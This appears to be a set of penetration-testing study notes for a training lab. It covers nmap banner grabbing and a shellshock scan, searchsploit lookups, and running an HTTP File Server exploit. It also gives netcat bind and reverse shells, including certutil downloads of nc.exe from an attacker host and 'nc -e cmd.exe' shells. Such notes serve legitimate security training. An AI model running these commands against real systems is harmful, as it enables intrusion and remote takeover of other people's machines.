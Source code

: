 <h2>Banner Grabbing</h2>
An information gathering technique used by pen testers to enum info regarding the target OS and services running on open ports.

```
nmap -sC -sV -O -T3 ip -oX output.xml
```

```
nmap -sV --script=banner 192.8.94.3
```

```
nc 192.8.94.3 22
```

```
nmap -sV -p 80 --script=http-shellshock --script-args "http-shellshock.uri=/gettime.cgi" 192.152.25.3
```

```
ls -al /usr/share/nmap/scripts | grep vuln
```


`www.packetstormsecurity.com`
`rapid7`
`googlehacking database `

```
searchsploit vsftpd
```

```
searchsploit -t vsftpd
```

Command to copy the exploit into your current working directory
```
searchsploit -m /PATH
```

commands can be used to display the Exploit-db URL instead of the EDBID?
```
searchsploit -w vsftdp
```

<h2>Fixing Exploitation</h2>
```
searchsploit HTTP File Server 2.3
```
```
searchsploit -m 39161
```
```
vim 39161.py
```
```
cp /usr/share/windows-resources/binaries/nc.exe /root/Desktop/
```
```
python -m SimpleHTTPServer 80
```
```
nc -nvlp 1234
```
```
python 39161.py demo.ine.local 80
```

<h2>Bind & Reverse Shell </h2>

TCP
```
nc -nv ip port
```

UDP
```
nc -nvu ip port 
```

Listen
```
nc -nlvp 13444  
```
Windows:
```
nc.exe -nv ip port
```

Receiver:
```
nc -nlvp Port > text.txt
```

Sender:
```
nc -nv <ReceiverIP> Port < test.txt 
```


<h3>Bind Shell</h3>
Disadvantage: Need to Setup In Client Machine.

Netcat Client(Attacker) ------------------> Netcat Listerner(Target) {cmd.exe}{/bin/bash}

Target:
```
certutil -urlcache -split -f https://AttackerIP/nc.exe nc.exe
```

```
certutil -urlcache -f http://10.10.31.2/nc.exe nc.exe
```

```
nc.exe -nlvp Port -e cmd.exe
```

Attacker:
```
nc -nv TargetIP Port

whoami
dir
```


if Attacker machine is windows  and target is linux Kali
Target:
```
nc -nlvp port -c /bin/bash
```

Attacker:
```
nc.exe -nv TargetIP Port

ls
id
```

<h3> Reverse Shell </h3>
Advantage: no NEED to setup in Client Machine.

Netcat Listerner(Attacker) <------------------------- Netcat Client(Target)

Attacker:
```
nc -nlvp 1234
```

Target:
```
nc.exe -nv AttackerIP -e cmd.exe
```

This has a alternative of using powershell or any other command.

<h2>Reverse Shell Cheetsheet </h2>

	https://github.com/swisskyrepo/PayloadsAllTheThings

	https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

